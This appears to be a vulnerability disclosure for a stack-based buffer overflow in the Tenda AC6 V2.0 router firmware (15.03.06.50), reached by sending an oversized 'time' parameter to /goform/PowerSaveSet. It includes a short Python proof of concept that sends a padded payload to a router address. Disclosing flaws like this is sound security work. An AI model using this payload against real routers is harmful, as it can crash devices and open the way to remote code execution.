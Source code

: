 # Bug Report: Buffer Overflow in Tenda AC6 V2.0 15.03.06.50 Router
A buffer overflow vulnerability has been identified in the Tenda AC6 V2.0 15.03.06.50 router firmware that allows remote attackers to potentially execute arbitrary code or cause denial of service through malformed HTTP requests.

## Vulnerability Details

### Product Information
- **Product**: Tenda AC6 V2.0 Wireless Router
- **Affected Version**: 15.03.06.50
- **Download Source**: https://www.tendacn.com/material/show/103316
- **Vulnerability Type**: Stack-based Buffer Overflow

## Description:
The vulnerable code path processes HTTP requests to the `/goform/PowerSaveSet`. When `time` is specified with excessive data, the buffer overflow occurs during `sprintf`.

![alt text](image-1.png)
## poc
![alt text](image.png)

## Reproduce
```python
#!/usr/bin/env python3
from pwn import *
import requests

def send_payload(url, payload):
    print("sending...")
    response = requests.get(url, params={'time': payload})
    print(f"Response status code: {response.status_code}\nResponse body: {response.text}")

payload = b'3:33-3:' + 0x100 * b'A'
send_payload("http://10.10.10.1/goform/PowerSaveSet", payload)
```
